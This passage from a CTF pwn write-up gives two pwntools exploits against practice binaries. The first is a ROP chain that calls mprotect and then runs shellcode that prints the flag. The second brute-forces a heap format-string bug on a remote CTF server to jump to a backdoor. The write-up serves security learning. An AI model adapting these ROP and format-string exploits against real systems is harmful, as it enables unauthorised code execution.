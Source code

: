 ```python
payload += p64(prsi_ret)+p64(0x1000)
payload += p64(prdx_ret)+p64(7)
payload += p64(prax_ret)+p64(10)
payload += p64(syscall)
payload += p64(jmp_rsp)
payload += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (bss+0x100))
p.recvuntil("let me guess\n")
p.send(payload)

# cat flag
shellcode = asm(shellcraft.cat(flag))
shellcode+= asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (bss+0x100))
p.send(shellcode)
print(p.recvuntil("}"))


p.interactive()
```

## xman-2019-format（堆格式化字符串+爆破栈）

格式化字符串，但字符串是输入到堆上，没法溢出，所以得想办法修改eip

利用ebp链机制修改返回地址，控制eip
参考了一下2篇WP
[ [BUUCTF]PWN——xman_2019_format(堆上的fmt+爆破栈)_mcmuyanga的博客-CSDN博客](https://blog.csdn.net/mcmuyanga/article/details/115060990?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control)
[xman_2019_format（堆fmt+爆破栈） · 语雀 (yuque.com)](https://www.yuque.com/u239977/cbzkn3/biczbd)

```python
from pwn import *
from LibcSearcher import *
from sys import argv
# context(os='linux',arch='amd64',log_level='debug')

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)


backdoor = 0x80485AB
for x in range (1,100):
    try:
        # p = process('./xman_2019_format')
        p = remote('node4.buuoj.cn','29254')
        payload = '%12c%10$hhn|%34219c%18$hn'
        p.sendline(payload)
        p.sendline('cat flag')
        p.recvline_contains('flag', timeout=1)
        p.interactive()
    except:
        p.close()
```